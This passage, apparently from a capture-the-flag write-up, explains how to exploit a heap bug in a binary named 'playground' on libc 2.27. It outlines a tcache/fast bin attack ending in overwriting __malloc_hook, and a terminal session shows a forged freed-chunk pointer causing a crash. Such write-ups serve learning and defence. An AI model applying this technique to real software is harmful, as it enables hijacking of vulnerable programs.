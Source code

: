 There are some obvious vulnerabilities: for e.g. the chunk freeing is achieved without checking if the chunk is allocated or not, which could be used as an attack surface to carry a fast bin attack.

### `libc` version

A note about `libc` version: the program is using `libc` version 2.27 <u>which incorporates a backport of the tcache key</u>.

### The exploit

Here's what we need to do in order to exploit this binary:

1. Set to zero `min_heap`
2. Overwrite `max_heap` with a high value
3. Overwrite `__malloc_hook` with the magic gadget.

**Note**: `min_heap` and `max_heap` are two global variables on which a sort of boundary check is performed before working with the heap.

**Setting `min_heap` to zero**

We need to exploit the presence of the key in the tcache, since it allows us to overwrite any DWORD with zeros. Here's an example:

```shell
$ LD_PRELOAD=./libc-2.27.so ./playground
pid: 10714
main: 0x5555555551d9
> malloc 32
==> 0x555555559280
> malloc 32
==> 0x5555555592b0
> free 0x555555559280
==> ok
> free  0x5555555592b0
==> ok
> show  0x5555555592b0 2
0x5555555592b0:   0x555555559280
0x5555555592b8:   0x555555559010
> write 0x5555555592b0 8
==> read
AAAAAAAAA
==> done
> Commands: malloc n, free p, show p [n], write p [n]
> show 0x5555555592b0 2
0x5555555592b0: 0x4141414141414141
0x5555555592b8:   0x555555559010
> malloc 32
==> 0x5555555592b0
> malloc 32
[1]    10714 segmentation fault (core dumped)  LD_PRELOAD=./libc-2.27.so ./playground
```

We can see that the program segfaulted because it tried to allocate `0x4141414141414141`.
